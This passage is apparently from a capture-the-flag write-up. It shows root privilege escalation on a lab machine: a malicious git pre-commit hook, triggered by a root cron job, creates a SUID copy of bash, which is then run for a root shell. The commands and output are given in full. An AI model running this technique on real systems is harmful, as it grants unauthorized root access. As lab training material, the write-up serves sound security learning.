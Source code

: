 If you look closer, **the `git` command is NOT using the absolute path (`/usr/bin/git`), we can leverage this to do relative path exploit!**

Also, **the script will `cd` into `/home/dev01/`.** According to a [blog](https://www.mehmetince.net/one-git-command-may-cause-you-hacked-cve-2014-9390-exploitation-for-shell/), **we can use git hooks to gain root privilege!**

**To do so, I'll:**

- Create a malicious pre-commit hook in `/home/dev01/.git/hooks/`, so it will be ran before `git commit`:

```
-bash-4.4$ pwd
/home/dev01/.git/hooks

-bash-4.4$ cat << EOF > pre-commit
> #!/bin/bash
> cp /bin/bash /tmp/root_bash
> chmod +s /tmp/root_bash
> EOF

-bash-4.4$ chmod +x pre-commit
```

**This Bash script will copy `/bin/bash` into `/tmp/` and called `root_bash`, then add SUID sticky bit into it.**

- Wait for the cronjob runs:

**Verify the exploit works:**
```
-bash-4.4$ ls -lah /tmp
[...]
-rwsr-sr-x  1 root  root  1.1M Sep 17 12:53 root_bash
```

Yes it works!! **Let's spawn a bash shell with SUID privilege!**

```
-bash-4.4$ /tmp/root_bash -p
root_bash-4.4# whoami;hostname;id;ip a
root
opensource
uid=1000(dev01) gid=1000(dev01) euid=0(root) egid=0(root) groups=0(root),1000(dev01)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:49:2e brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.164/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:e6:59:a0:70 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```

I'm root! :D
